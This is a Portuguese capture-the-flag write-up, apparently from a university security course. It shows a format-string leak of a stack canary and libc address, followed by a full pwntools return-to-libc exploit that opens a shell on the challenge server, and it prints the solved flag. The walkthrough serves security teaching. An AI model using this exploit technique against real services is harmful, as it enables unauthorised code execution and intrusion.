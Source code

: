 Primeiro, utilizamos ```checksec``` no ```program```:

![Screenshot 2023-06-29 at 11 33 53](https://github.com/marisaazevedo/Seguranca-e-Privacidade/assets/98234753/614d79d1-e3e2-4bdb-92da-ce0bd8b79c12)

Verificamos que todas as proteções estão ativas.

Como foi indicado neste desafio "Não te esqueças, não há nada totalmente seguro." Então começamos por ultrapassar o máximo de caracteres permitidos, neste caso o máximo era 20.

![Screenshot 2023-06-29 at 11 33 58](https://github.com/marisaazevedo/Seguranca-e-Privacidade/assets/98234753/79654a87-4984-4176-870d-bd12c9ddd43a)

Com isto verificamos que ```stack smashing detected```, indicando então que o ```program``` não verifica o número máximo de caracteres, esperando que o canary faça essa confirmação.

Após fazermos debugging ao ```program```, descobrimos algo que não é nada normal. A função ```fgets``` está a ler 100 caracteres, em vez dos supostos 20 caracteres. Então suspeitamos que existe alguma vulnerabildade em strings.

Confirmando a nossa suposição:

![Screenshot 2023-06-29 at 11 34 05](https://github.com/marisaazevedo/Seguranca-e-Privacidade/assets/98234753/8c0ead74-aa1b-462c-afa1-949c82f376cd)

Como conseguimos imprimir a informação da stack, confirmamos que as nossas suspeitas estavam corretas.

Acabamos por descobrir depois de alguma pesquisa que este ataque é chamado de ```Return-to-libc``` (https://en.wikipedia.org/wiki/Return-to-libc_attack). Então criamos um script para esse ataque:

```python
from pwn import *

LOCAL = False

# Offset de referência da biblioteca
reference_lib_offset = 0xf7daa519 - 0xf7d89000
# Offset da função system na biblioteca
system_lib_offset = 0x48150
# Offset da string "/bin/sh" na biblioteca
sh_lib_offset = 0x1bd0f5


def send_message(p, message):
    p.recvuntil(b">")
    p.sendline(b"e")
    p.recvuntil(b"Insert your name (max 20 chars): ")
    p.sendline(message)
    answer = p.recvline()
    p.recvuntil(b"Insert your message: ")
    p.sendline(b"")
    return answer

if LOCAL:
    pause()
else:
    p = remote("ctf-sp.dcc.fc.up.pt", 4002)

# Envia a primeira mensagem para obter o valor do canário e um valor de referência
first_message = send_message(p, b"%8$x-%11$x")

canary, reference_val = [int(val, 16) for val in first_message.split(b'-')]

# Calcula a base da biblioteca
lib_base = reference_val - reference_lib_offset
# Calcula os endereços da função system e da string "/bin/sh"
address_system = lib_base + system_lib_offset
address_sh = lib_base + sh_lib_offset

# Monta a segunda mensagem com os valores calculados
second_message = flat(b"A"*20, canary + 1, b"A"*8, address_system, b"A"*4, address_sh)

send_message(p, second_message)

send_message(p, b"A"*19)

p.interactive()
```

Após executarmos ```python3 script.py```, finalmente obtemos a flag: **flag{446742e444cf864d5d85fa643112492a}**

![Screenshot 2023-06-29 at 11 34 13](https://github.com/marisaazevedo/Seguranca-e-Privacidade/assets/98234753/b1f7d6d5-e2c2-49d4-8e33-33ab99576cb1)
